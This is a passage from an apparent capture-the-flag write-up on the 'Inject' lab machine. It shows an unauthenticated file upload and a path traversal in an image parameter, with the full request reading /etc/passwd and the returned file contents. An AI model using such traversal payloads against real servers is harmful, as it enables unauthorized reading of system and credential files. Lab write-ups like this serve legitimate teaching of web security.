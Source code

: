 ### Files Read 

There was an 'Upload' link on the page even if I was not connected to the application. I tried it, I was able to upload files to the server.

![File Uploaded](/assets/images/2023/04/Inject/Uploaded.png "File Uploaded")

After I uploaded an image, I had a link to look at it. I tried uploading some source code files, but they were rejected.

The way the images were displayed was interesting. I did not have a direct link to the image, they were passed in the 'img' parameter of the query string: 'http://target.htb:8080/show_image?img=image.png'. I tried to read the passwd file.

```http
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1
Host: target.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

It worked.

```http
HTTP/1.1 200
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 1986
Date: Fri, 31 Mar 2023 12:23:05 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```
